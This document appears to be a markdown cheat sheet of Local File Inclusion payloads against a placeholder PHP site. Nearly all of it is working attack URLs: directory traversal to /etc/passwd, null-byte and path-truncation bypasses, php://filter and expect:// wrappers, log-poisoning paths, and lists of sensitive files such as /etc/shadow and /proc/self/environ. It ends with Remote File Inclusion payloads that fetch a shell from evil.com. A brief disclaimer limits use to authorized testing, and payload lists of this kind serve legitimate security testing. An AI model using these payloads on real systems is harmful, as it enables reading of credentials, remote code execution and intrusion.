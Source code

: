 # Local File Inclusion (LFI) Payloads

Below is a collection of LFI (Local File Inclusion) payloads that can be used for testing and educational purposes. These payloads attempt to read sensitive files on a vulnerable system.

## Basic LFI Payloads

```
http://vulnerable-site.com/index.php?page=../../../etc/passwd
http://vulnerable-site.com/index.php?page=../../../../etc/passwd
http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd
http://vulnerable-site.com/index.php?page=..%2F..%2F..%2Fetc%2Fpasswd
```

## Null Byte Injection (for older PHP versions)

```
http://vulnerable-site.com/index.php?page=../../../etc/passwd%00
http://vulnerable-site.com/index.php?page=../../../etc/passwd%00.html
```

## Path Truncation (for long filenames)

```
http://vulnerable-site.com/index.php?page=../../../etc/passwd............[add more dots]
http://vulnerable-site.com/index.php?page=../../../etc/passwd/././././././.[repeat]
```

## PHP Wrapper Techniques

```
http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://vulnerable-site.com/index.php?page=php://filter/resource=etc/passwd
http://vulnerable-site.com/index.php?page=expect://ls
```

## Log File Poisoning

```
http://vulnerable-site.com/index.php?page=../../../var/log/apache2/access.log
http://vulnerable-site.com/index.php?page=../../../var/log/apache/error.log
http://vulnerable-site.com/index.php?page=../../../var/log/nginx/access.log
```

## Interesting Files to Read

### Linux Systems
```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/issue
/proc/self/environ
/proc/version
/proc/cmdline
/var/log/auth.log
/var/log/syslog
```

### Windows Systems
```
../../boot.ini
../../windows/win.ini
../../windows/system32/drivers/etc/hosts
```

## RFI (Remote File Inclusion) Payloads

```
http://vulnerable-site.com/index.php?page=http://evil.com/shell.txt
http://vulnerable-site.com/index.php?page=\\evil.com\share\shell.txt
```

## Important Notes

- These payloads are for educational and authorized testing purposes only
- Unauthorized use against systems you don't own is illegal
- Always get proper authorization before testing
- Many modern systems have protections against LFI attacks
